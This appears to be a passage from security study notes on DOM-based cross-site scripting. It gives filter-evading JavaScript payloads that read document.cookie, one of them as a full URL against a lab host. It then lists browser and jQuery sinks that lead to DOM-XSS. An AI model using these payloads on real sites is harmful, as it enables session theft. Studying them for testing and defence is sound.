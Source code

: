 ```javascript
 /?user=')|eval('onload=a'.concat('lert(document.cookie)'))//
```

```javascript
http://192.168.1.3/web/vulnapp.php%20/?user=%27)|eval(%27onload=a%27.concat(%27lert(document.cookie)%27))//#!
```

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```javascript
 /?user='),alert?.('document.cookie//
```

Which sinks can lead to DOM-XSS vulnerabilities?

&#x20;The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

```

he following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()
after()
append()
animate()insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```
